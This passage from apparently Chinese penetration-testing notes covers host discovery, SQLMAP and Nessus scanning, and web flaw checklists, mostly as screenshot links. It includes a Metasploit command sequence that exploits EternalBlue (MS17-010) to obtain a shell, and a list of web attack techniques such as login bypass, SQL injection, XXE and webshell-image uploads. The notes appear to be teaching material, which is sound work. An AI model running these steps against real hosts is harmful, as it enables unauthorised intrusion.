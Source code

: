   - PU（主机发现）

    [![WPYhNt.png](https://z3.ax1x.com/2021/07/12/WPYhNt.png)](https://imgtu.com/i/WPYhNt)

[![WPYLHs.png](https://z3.ax1x.com/2021/07/12/WPYLHs.png)](https://imgtu.com/i/WPYLHs)

###### SQLMAP

[![WPtQDH.png](https://z3.ax1x.com/2021/07/12/WPtQDH.png)](https://imgtu.com/i/WPtQDH)

###### 主机层面漏洞：Nessus

首先新建策略。在这里设置  父策略  和  子策略[![WPDB4J.png](https://z3.ax1x.com/2021/07/12/WPDB4J.png)](https://imgtu.com/i/WPDB4J)[![WPDyg1.png](https://z3.ax1x.com/2021/07/12/WPDyg1.png)](https://imgtu.com/i/WPDyg1)

使用 User Defined 的策略开始扫描[![WPD2DK.png](https://z3.ax1x.com/2021/07/12/WPD2DK.png)](https://imgtu.com/i/WPD2DK)[![WPDhUe.png](https://z3.ax1x.com/2021/07/12/WPDhUe.png)](https://imgtu.com/i/WPDhUe)[![WPD44H.png](https://z3.ax1x.com/2021/07/12/WPD44H.png)](https://imgtu.com/i/WPD44H)[![WPrp2n.png](https://z3.ax1x.com/2021/07/12/WPrp2n.png)](https://imgtu.com/i/WPrp2n)

###### MSF

例：Nessus扫描出 永恒之蓝 ， 则进行 永恒之蓝 漏洞利用：
```bash
msfconsole
msf > search ms17_010
msf >use auxiliary/scanner/smb/smb_ms17_010
msf >set RHOSTS 192.168.23.133
msf > run
msf >use exploit/windows/smb/ms17_010_eternalblue
msf >exploit
就得到shell 了
```

```
```

## WEB颗粒度测试

> 什么是WEB颗粒度测试？
>
> 就是所有发现的WEB的问题都要测试并报告。
>
> 如：登录框有万能密码绕过，SQL注入，密码未加密明文传输
> 目录遍历，路径泄露，信息泄露
> 文件上传(文件名XSS,注入,尝试抓包查看文件上传位置)，
> 图片木马上传缩略图问题：删掉small , large 字段
>
> XSS，SQL Injection :
>  XXE(PHP<=5.4成功，5.5及以上不成功(XML2.9.1以下))
> 中间件的解析漏洞，
>
> .htaccess文件上传
> and , etc

[![WPdJeg.png](https://z3.ax1x.com/2021/07/12/WPdJeg.png)](https://imgtu.com/i/WPdJeg)

---